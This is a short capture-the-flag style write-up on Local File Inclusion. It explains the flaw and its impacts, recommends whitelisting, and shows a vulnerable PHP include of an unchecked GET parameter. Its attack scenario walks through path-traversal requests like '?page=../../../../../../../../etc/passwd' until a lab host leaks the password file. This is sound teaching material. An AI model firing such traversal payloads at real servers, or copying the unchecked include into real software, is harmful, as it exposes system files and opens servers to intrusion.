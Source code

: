 # Local File Inclusion (LFI)

- Local File Inclusion is an attack technique in which attackers trick a web application into either running or exposing files on a web server.

- Example of lfi vulnerbale code

>$file = $_GET['file'];
>
>include('directory/' . $file);

## Impacts of LFI vulnerabilities

- The impact of a Local File Inclusion attack can vary based on the exploitation and the read permissions of the webserver user. Based on these factors, an attacker can gather usernames via an /etc/passwd file, harvest useful information from log files, or combine this vulnerability with other attack vectors (such as file upload vulnerability) to execute commands remotely.



## Preventing LFI

- To avoid LFI and many other vulnerabilities, never trust user input. If you need to include local files in your website or web application code, use a whitelist of allowed file names and locations. Make sure that none of these files can be replaced by the attacker using file upload functions.


## Attack scenario

In our page we got same thing but with page variable or query for example survey page

> http://ipaddress/?page=survey

We can try and go out of the root folder of the website and acces sensible data like /etc/passswd
as start:
> http://ipaddress/?page=../etc/passwd
nothing happened . So we will add ../ till we got a result

- finally:
    > http://ipaddress/?page=../../../../../../../../etc/passwd

    worked and we got the flag !

